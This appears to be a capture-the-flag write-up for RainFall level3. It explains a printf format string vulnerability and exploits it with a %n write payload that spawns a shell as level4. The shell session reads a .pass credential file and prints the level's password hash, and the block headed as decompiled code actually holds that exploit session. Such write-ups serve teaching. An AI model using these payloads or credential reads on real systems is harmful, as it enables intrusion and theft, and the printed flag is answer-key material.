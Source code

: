 Decompiled version of the program from BinaryNinja:

```c
level3@RainFall:~$ (python -c 'print "\x8c\x98\x04\x08" + "%60d%4$n"'; cat) | ./level3 
�                                                           
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

A vulnerability in the form of a format string attack can be directly observed on the printf function, as it is called in this manner: `printf(&var_20c)`. This enables us to read and overwrite the stack. The objective here seems to be rewriting the value of EAX in order to invoke /bin/sh as user level4.

Resources on this type of vulnerability:

- https://www.unilim.fr/pages_perso/patrick.poulingeas/Enseignements/2004_2005/Master1/FormatString.pdf
- https://repo.zenk-security.com/Techniques%20d.attaques%20%20.%20%20Failles/Les%20failles%20Format%20String.pdf
- https://www.re-xe.com/format-string-bugs/

If we check the function v, we can see that the value contained at address `0x804988c` is stored in EAX before the comparison between EAX and 0x40 (64 in decimal) is carried out:

```assembly
   0x080484a4 <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	sub    $0x218,%esp
   0x080484ad <+9>:	mov    0x8049860,%eax
   0x080484b2 <+14>:	mov    %eax,0x8(%esp)
   0x080484b6 <+18>:	movl   $0x200,0x4(%esp)
   0x080484be <+26>:	lea    -0x208(%ebp),%eax
   0x080484c4 <+32>:	mov    %eax,(%esp)
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:	lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:	mov    %eax,(%esp)
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
   0x080484da <+54>:	mov    0x804988c,%eax ; <== here
   0x080484df <+59>:	cmp    $0x40,%eax
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   0x080484e4 <+64>:	mov    0x8049880,%eax
   0x080484e9 <+69>:	mov    %eax,%edx
   0x080484eb <+71>:	mov    $0x8048600,%eax
   0x080484f0 <+76>:	mov    %edx,0xc(%esp)
   0x080484f4 <+80>:	movl   $0xc,0x8(%esp)
   0x080484fc <+88>:	movl   $0x1,0x4(%esp)
   0x08048504 <+96>:	mov    %eax,(%esp)
   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:	movl   $0x804860d,(%esp)
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave  
   0x08048519 <+117>:	ret
```

So, we simply need to rewrite the value present at this address using printf.

Using the formatter `%08x` allows us to advance 4 bytes each time in the stack:

```shell
level3@RainFall:~$ python -c 'print "AAAA %08x %08x %x08 %08x %08x %08x"' | ./level3 
AAAA 00000200 b7fd1ac0 b7ff37d008 41414141 38302520 30252078
```

We can see that our string begins from the 4th formatter, which is the one we control.
Thus, we can directly write the value 0x40 to this address as follows:

```shell
(python -c 'print "\x8c\x98\x04\x08" + "%60d%4$n"'; cat) | ./level3
```

In this case, the `%n` formatter will read the first 4 bytes, which constitute the address where EAX will retrieve the value, and then it will rewrite the value present at that address. The initial value is 4 since we are displaying 4 bytes (the address). We can add the remainder using `%60d`, which makes 4 + 60 = 64 | 0x40.

Alternatively, we could write it like this, for example:

```shell
(python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"'; cat) | ./level3
```

And there's the flag:

```shell
level3@RainFall:~$ (python -c 'print "\x8c\x98\x04\x08" + "%60d%4$n"'; cat) | ./level3 
�                                                           
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```


